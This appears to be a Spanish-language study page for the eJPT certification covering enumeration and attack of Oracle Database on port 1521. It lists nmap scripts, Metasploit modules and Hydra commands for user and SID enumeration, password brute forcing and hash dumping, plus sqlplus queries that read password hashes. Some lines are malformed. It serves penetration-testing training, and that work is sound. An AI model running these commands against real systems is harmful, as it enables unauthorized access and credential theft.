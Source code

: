 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```



# 🔍 Puerto 1521 - Oracle Database

Oracle Database El puerto 1521 es utilizado por el servicio Oracle Database, una de las bases de datos más utilizadas en entornos empresariales y críticos. Debido a su importancia, es un objetivo frecuente en auditorías de seguridad.

## 🛠️ Herramientas Principales:

Nmap + Scripts NSE: Enumeración y detección de vulnerabilidades. 🛠️ Metasploit: Explotación de fallos y acceso no autorizado. 🛠️ Hydra & Medusa: Ataques de fuerza bruta para credenciales.

## 📝 Reconocimiento e Identificación del Servicio Oracle

```bash
nmap -p 1521 -sCV <ip_victima> # Escaneo para intentar ver la versión. 
nmap -p 1521 --script oracle-enum-users <ip_victima> # Enumeración de usuarios. 
nmap -p 1521 --script oracle-brute <ip_victima> # Ataque de fuerza bruta. 
nmap -p 1521 --script oracle-sid-brute <ip_victima> # Descubrimiento del SID de la base de datos.
nmap -p 1521 --script oracle-tns-version <ip_victima> # Ver versión del servicio TNS.
```

## Uso de Metasploit para Auditoría de Oracle🛠️

```bash
msfconsole -q 
use auxiliary/admin/oracle/oracle_login # Enumeración de usuarios 
set RHOSTS <ip_victima> 
run
```

## Ataque de autenticación débil.

```bash
use auxiliary/scanner/oracle/oracle_login 
set RHOSTS <ip_victima> 
set USERNAME SYS
set PASSWORD password 
run
```

## Lista recursos de Oracle Database.

```bash
use auxiliary/admin/oracle/oracle_sid_brute # Descubrimiento de SID 
use auxiliary/admin/oracle/oracle_hashdump # Extracción de hashes de contraseñas 
use auxiliary/admin/oracle/oracle_sql # Ejecución de consultas SQL 
use auxiliary/admin/oracle/oracle_schema # Enumeración del esquema de la base de datos
```

## 🔑 Fuerza brutal al servicio Oracle Database

```bash
hydra -l -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip_victima> oracle
```

Metasploit

```bash
msfconsole -q use auxiliary/scanner/oracle/oracle_login # Ataque de Fuerza Bruta contra Oracle Database 
set RHOSTS <ip_victima> 
set USER_FILE /ruta_diccionario.txt 
set PASS_FILE /ruta_diccionario.txt 
set THREADS <número> # Definir número de intentos por segundo (Opcional, por defecto 5) exploit
```

## 📊 Comandos para interactuar con Oracle Database

```bash
sqlplus /<contraseña>@<ip_servidor>:1521/ # Iniciar sesión con credenciales válidas. 
sqlplus / as sysdba # Iniciar sesión como administrador. 
SELECT username FROM dba_users; # Enumerar usuarios de la base de datos. 
SELECT * FROM all_tables; # Mostrar todas las tablas en la base de datos. 
SELECT * FROM all_views; # Enumerar todas las vistas disponibles. 
SELECT * FROM all_indexes; # Enumerar todos los índices de la base de datos. 
SELECT password FROM sys.user$ WHERE name='' # Obtener hashes de contraseñas de los usuarios.
```

---

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>


